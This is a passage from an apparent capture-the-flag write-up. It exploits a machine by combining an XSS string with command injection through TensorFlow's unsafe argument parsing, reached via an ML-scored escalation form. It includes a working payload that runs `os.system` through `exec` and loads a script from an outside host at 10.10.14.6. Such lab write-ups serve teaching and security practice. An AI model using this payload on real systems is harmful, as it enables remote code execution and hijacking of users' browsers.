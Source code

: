 

    diego@forgot:~$ pip show tensorflow
    Name: tensorflow
    Version: 2.6.3
    Summary: TensorFlow is an open source machine learning framework for everyone.
    Home-page: https://www.tensorflow.org/
    Author: Google Inc.
    Author-email: packages@tensorflow.org
    License: Apache 2.0
    Location: /usr/local/lib/python3.8/dist-packages
    Requires: clang, numpy, astunparse, h5py, flatbuffers, typing-extensions, wheel, tensorflow-estimator, six, termcolor, gast, protobuf, keras, absl-py, keras-preprocessing, opt-einsum, grpcio, wrapt, tensorboard, google-pasta
    Required-by:



I don't believe this actually matters, since
`process_input_exprs_arg_string` is being called directly and explicitly
as `safe=False`. This seems like a very atypical way to use
`tensorflow`.

#### Exploit POC

To get this code to work, I'll need to submit something for escalation
that has both XSS and the command injection in the reason. The XSS will
get scored highly by the ML model, which gets it passed to
`preprocess_input_exprs_arg_string`, where the command injection will
execute.

I'll start with this:



    oxdf=exec("""import os\nos.system("touch /tmp/0xdf")""");#<script src="http://10.10.14.6/xss.js"></script>



Hopefully the last bit will score highly as XSS, and then get passed to
`preprocess_input_exprs_arg_string`. Then the `exec` call will import
the `os` module and call `os.system`.

I'll submit that via the webpage:

![](/img/image-20230224110524327.png)